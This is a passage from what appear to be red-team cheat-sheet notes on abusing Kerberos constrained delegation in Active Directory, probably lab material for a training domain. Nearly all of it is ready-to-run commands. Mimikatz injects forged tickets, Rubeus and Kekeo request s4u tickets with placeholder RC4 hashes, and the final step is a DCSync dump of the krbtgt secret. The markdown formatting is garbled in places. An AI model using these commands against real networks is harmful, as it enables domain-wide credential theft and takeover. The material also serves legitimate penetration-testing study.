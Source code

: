   ```powershell
      ```powershell
      Invoke-Mimikatz -Command '"kerberos::ptt TGS_Administrator@organicsecurity.local@organicsecurity.local_cifs~dcorp-mssql.organicsecurity.local@organicsecurity.local.kirbi"'
    
    - Access the CIFS Service 

      ```powershell
      dir \\dcorp-dc.organicsecurity.local

  - Method 2: User Account exploitation using Rubeus

  	- Use Rubeus to directly fetch TGS for delegated service in single command

      ```powershell
      .\Rubeus.exe s4u /user:websvc /rc4:cc098f204c892347832947324749156f
      /impersonateuser:Administrator /msdsspn :"dcorp_mssql.organicsecurity.local" /ptt

    - Access the CIFS Service 

      ```powershell
      dir \\dcorp-dc.organicsecurity.local


**[II] Constrained Delegation - Machine Account**


  - Method 1: Machine Account exploitation using Kekeo 

    - Similar to above scenario, we can use the NTLM hash of machine account to request TGT 

      ```powershell
      kekeo tgt::ask /user:dcorp adminsrv /domain:organicsecurity.local /rc4:1fadb1b13232132323389e6f34c67
    
    - Use TGT received above to request for TGS. Now, here we can request TGS for service which are not listed under msds-allowedto delegateto but is running under the same service/system account 
    
      ```powershell
      kekeo tgs::s4u /tgt:TGT_dcorp-adminsrv$ @organicsecurity.local_krbtgt~organicsecurity.local@organicsecurity.local.kirbi /user:Administrator@organicsecurity.local /service:time/dcorp-dc.organicsecurity.local | ldap dcorp-dc.organicsecurity.local
    
    - Inject the TGS ticket and perform DCSync attack

      ```powershell
      Invoke-Mimikatz -Command '"kerberos::ptt TGS_Administrator@organicsecurity.local@organicsecurity.local_ldap~dcorp-dc.organicsecurity.local@organicsecurity.local_ALT.kirbi"'
    
      Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt "'


  - Method 2: Machine Account exploitation using Rubeus  

      - Request the TGS for alternate service (not listed in delegation attribute)
      
        ```powershell
        .\Rubeus.exe s4u /user:dcorp-adminsrv$ /rc4:1fadb134234234e6f34c67 /impersonateuser:Administrator /msdsspn:"time/dcorp.dc.organicsecurity.local" /altservice:ldap /ptt

      - Use it to perform DCSync attack

        ```powershell
        Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
  ```